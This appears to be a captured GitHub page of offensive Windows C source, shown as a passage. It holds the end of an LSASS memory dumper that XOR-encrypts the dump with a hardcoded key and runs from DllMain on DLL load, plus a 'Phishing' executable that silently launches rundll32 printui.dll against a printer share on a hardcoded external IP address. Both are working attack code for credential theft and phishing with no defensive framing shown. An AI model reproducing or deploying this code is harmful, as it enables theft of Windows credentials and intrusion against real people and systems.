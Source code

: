 ```c
	if (success) {
		printf("[+] Successfully dumped LSASS to memory!\n");
	} else {
		printf("[-] Could not dump LSASS to memory\n[-] Error Code: %i\n", GetLastError());
		return 0;
	}

	// Xor encrypt our dump data in memory using the specified key
	char key[] = "jisjidpa123";
	printf("[+] Xor encrypting the memory buffer containing the dump data\n[+] Xor key: %s\n", key);
	XOR((char*)dumpBuffer, dumpSize, key, sizeof(key));

	// Create file to hold the encrypted dump data
	HANDLE hFile = CreateFile("LSASS_ENCRYPTED.DMP", GENERIC_ALL, FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	
	// Write the encrypted dump data to our file
	DWORD bytesWritten = 0;
	WriteFile(hFile, dumpBuffer, dumpSize, &bytesWritten, NULL);
	printf("[+] Enrypted dump data written to \"LSASS_ENCRYPTED.DMP\" file\n");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
	if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
		MessageBox(NULL, "Running LsassDumper.dll", "LsassDumper.dll", MB_OK);
		main(0, {});
	}
	return TRUE;
}
```

# Phishing

### EXE
```c
void execCommand(char *cmd){
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    
    ZeroMemory(&si, sizeof(si));
    ZeroMemory(&pi, sizeof(pi));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_MINIMIZE;
    si.dwFlags |= STARTF_USESTDHANDLES;
    
    BOOL success = CreateProcessA(NULL, (TCHAR*)cmd, NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT | CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
    
    WaitForSingleObject(pi.hProcess, 20000);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
}

int main(void)
{
    char *cmd = "rundll32.exe printui.dll,PrintUIEntry /p /n\\\\103.186.117.152\\printer";
    execCommand(cmd);
}
```
